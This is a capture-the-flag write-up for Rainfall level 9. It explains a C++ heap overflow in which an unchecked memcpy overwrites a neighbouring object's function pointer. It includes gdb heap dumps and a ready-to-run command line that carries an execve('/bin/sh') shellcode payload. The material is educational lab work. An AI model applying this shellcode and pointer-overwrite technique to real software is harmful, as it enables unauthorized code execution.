 # Rainfall - Level 9

## Executable Analyse

This exercise exploits a c++ code declaring a class N.
This class N contains 3 things:
- a pointer on function f
- a string of 100 characteres
- an int, initalised by the constructor.

The main function initalizes two N objects.
Then a memcpy is called to set the string value of the first object, using the first program argument.
Finally the main calls the pointer on function of the second object. 

As in one of the previous levels, the user input is not controlled and copied into a buffer of finite size (100).
Our goals is to rewrite the function pointer execute in the second object.

## Heap Overflow

```bash
level9@RainFall:~$ ltrace ./level9 42
[...]
_Znwj(108, 0xbffff7f4, 0xbffff800, 0xb7d79e55, 0xb7fed280)                     = 0x804a008
_Znwj(108, 5, 0xbffff800, 0xb7d79e55, 0xb7fed280)                              = 0x804a078
memcpy(0x0804a00c, "42", 2)                                                    = 0x0804a00c

```
Znwj represents our first object and his memory address is 0x804a008

If we print this heap address : 
```asm
(gdb) x/200x 0x804a008

0x804a008:	0x08048848	0x00003234	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005

0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000006
```

Our value '42' is on the first line, second column (*0x804a00c*), and the object given values '5', and '6', are at the end of each block. 


```asm
(gdb) x/200x 0x804a008

0x804a008:	0x08048848	0x0804a010	0x895e1feb	0xc0310876
0x804a018:	0x89074688	0x0bb00c46	0x4e8df389	0x0c568d08
0x804a028:	0xdb3180cd	0xcd40d889	0xffdce880	0x622fffff
0x804a038:	0x732f6e69	0x61616168	0x61616161	0x61616161
0x804a048:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a058:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a068:	0x61616161	0x61616161	0x61616161

0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000006
```

Considering the first field of the object is a function pointer, we need to set the address of our shellcode

Sending buffer will looks like :  
>[buffer_address] [shellcode] [address_of_first_pointer_function]

**[buffer address]** = *0x804a00c* + 4  -> *0x804a010*  
**[shellcode]** = execv("/bin/sh")
x86 Shellcode found on : https://beta.hackndo.com/buffer-overflow/  
**[adddress of pointer function] : *0x804a00c*

Give us :

```shell
./level9 $(python -c 'print "\x08\x04\xa0\x10"[::-1] + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "a" * (108 - 45 - 4) + "\x08\x04\xa0\x0c"[::-1]')
```
